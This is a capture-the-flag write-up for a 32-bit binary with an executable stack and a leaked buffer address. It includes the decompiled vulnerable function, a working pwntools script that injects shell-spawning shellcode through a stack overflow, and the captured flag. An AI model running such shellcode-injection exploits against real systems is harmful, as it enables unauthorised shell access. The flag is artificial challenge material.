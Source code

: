 
This write up is for the challenge shell

The first thing I did was to first run file and checksec to see the basic protections that the binary had. I saw that it there was no NX meaning that we could inject our own shellcode.
```
[*] '/home/kali/Downloads/CWE2025/real/shell'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No

```
After running the binary one can see that it prints out the location of the start of the buffer, if there is a buffer overflow we have a clear shellcode injection.

I opened it up in ghidra and I saw
```

void read_in(void)

{
  undefined1 local_44 [60];
  
  printf("Buffer location = 0x%08x\n",local_44);
  read(0,local_44,144);
  return;
}
```
This is what I was looking for, now all I need to do is create a script that injects shellcode, pads to the return address and returns to the beginning of our shellcode.

```python
#!/usr/bin/env python3 
import subprocess
from pwn import *

binary_path = './shell' # exe
libc_path = ''
remote_host = 'www.cweaccessionsctf.com'
remote_port = 1305  # <-- Needs to be a valid integer if using REMOTE

context.binary = binary_path
#context.terminal = ['tmux', 'splitw', '-h']
elf = context.binary
#libc = ELF(libc_path)
rop = ROP(elf)
#libc = ELF(libc_path)

if args.GDB:
    p = gdb.debug(binary_path, gdbscript='b *')
elif args.REMOTE:
    p = remote(remote_host, remote_port)
else:
    p = process(binary_path)

def main():
    p.recvuntil(b'location = ')
    buff = p.recvn(10) # Reads in leaked location
    buff = int(buff,16) #cast to packable value
    shellcode = asm(shellcraft.sh())
    payload = b''
    payload += shellcode
    leng = len(shellcode)
    print(leng)
    payload += b'A' * (68 - leng)
    payload += p32(buff)

    p.sendline(payload)

    p.interactive()

if __name__ == '__main__':
    main()

```
This then pops a shell and we can cat the flag

CWE{popping_shells_is_neat_HRhzM3AR}
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTQyMzQzNzgwMiw3Nzg1ODkyNjBdfQ==
-->